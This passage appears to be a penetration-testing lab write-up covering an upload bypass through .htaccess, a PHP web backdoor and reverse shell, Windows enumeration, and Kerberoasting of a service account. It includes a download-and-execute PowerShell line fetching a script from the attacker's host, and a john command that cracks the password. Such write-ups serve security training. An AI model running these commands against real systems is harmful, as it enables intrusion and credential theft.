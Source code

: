 # Exploitation
## Arbitary File Upload
Ran `echo "AddType application/x-httpd-php .bypass" > .htaccess` to allow new filename `.bypass` and uploaded `.htaccess` to target
![[Pasted image 20241104210326.png]]
- Renamed `simple-backdoor.php` to `simple-backdoor.bypass` and uploaded
![[Pasted image 20241104210532.png]]
- Navigated to `http://192.168.196.187/uploads/simple-backdoor.bypass?cmd=whoami` and achieved code execution on target
![[Pasted image 20241104210639.png]]
- Generated PHP reverse shell to connect back to Attacker IP
![[Pasted image 20241104212007.png]]
- Saved PHP reverse shell as `php-reverse.bypass`, then uploaded to target.
![[Pasted image 20241104211516.png]]
- Started netcat listener on port `1234` then navigated to `http://192.168.196.187/uploads/php-reverse.bypass` and caught reverse shell
![[Pasted image 20241104212156.png]]
---
# Lateral Movement to user
## Local Enumeration
- Ran `whoami /priv`
![[Pasted image 20241104212942.png]]
- Ran `systeminfo` - identified `Windows Server 2019` `Build 17763` on `x64`
![[Pasted image 20241104213150.png]]
- Uploaded `winpeasx64.exe` and ran on target
![[Pasted image 20241105120710.png]]
- Identified vulnerabilities with `Watson`
![[Pasted image 20241105122244.png]]
- Identified unquoted autorun binaries with spaces
![[Pasted image 20241105121653.png]]
![[Pasted image 20241105121733.png]]
- Uploaded `Get-SPN.ps1` and ran on target - identified 
![[Pasted image 20241105123023.png]]
- Ran `Add-Type -AssemblyName System.IdentityModel` and `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'`
![[Pasted image 20241105123802.png]]
## Lateral Movement vector
- Served `Invoke-Kerberoast.ps1` via Python3 server then ran: `iex(new-object net.webclient).downloadString('http://192.168.45.178:80/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat Hashcat` for `svc_mssql` ticket hash
![[Pasted image 20241105130904.png]]
- Reformatted and saved hash to local host as `msql.hash`
![[Pasted image 20241105131312.png]]
- Ran `john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 MSQL.hash` and cracked hash for credential `trustno1`
![[Pasted image 20241105132120.png]]